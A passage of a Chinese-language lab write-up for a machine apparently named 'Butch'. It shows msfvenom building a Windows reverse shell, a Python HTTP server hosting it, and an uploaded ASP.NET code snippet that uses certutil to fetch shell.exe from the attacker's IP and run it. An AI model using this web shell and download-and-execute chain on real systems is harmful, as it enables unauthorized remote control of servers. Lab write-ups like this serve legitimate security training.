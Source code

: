 ![image-20240212212822461](resource/26-W-M-Butch.assets/image-20240212212822461.png)

上传成功后，刷新当前页面，会在网页底部输出 whoami的命令执行结果。

注意，第一次上传后需要刷新页面，或者用Get方式访问当前页才有命令执行结果，上图中是因为已经是第二次上传了。

接下去替换命令内容，下载由MSFVenom生产的shell.exe，并执行获取反弹shell。

```sh
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.65 LPORT=450 -f exe -o shell.exe
$ sudo python3 -m http.server 445
```



```sh
&lt;%
string stdout = &#34;&#34;;
ArrayList commands = new ArrayList();
commands.Add(&#34;certutil.exe -urlcache -split -f \&#34;http://192.168.49.65:445/shell.exe\&#34; \&#34;C:\\inetpub\\wwwroot\\shell.exe\&#34;&#34;);
commands.Add(&#34;\&#34;C:\\inetpub\\wwwroot\\shell.exe\&#34;&#34;);
foreach (string cmd in commands) {
	System.Threading.Thread.Sleep(3000);
	System.Diagnostics.ProcessStartInfo procStartInfo = new System.Diagnostics.ProcessStartInfo(&#34;cmd&#34;, &#34;/c &#34; &#43; cmd);
	procStartInfo.RedirectStandardOutput = true;
	procStartInfo.UseShellExecute = false;
	procStartInfo.CreateNoWindow = true;
	System.Diagnostics.Process p = new System.Diagnostics.Process();
	p.StartInfo = procStartInfo;
	p.Start();
	stdout = p.StandardOutput.ReadToEnd();
	Response.Write(stdout);
}
%&gt;
```
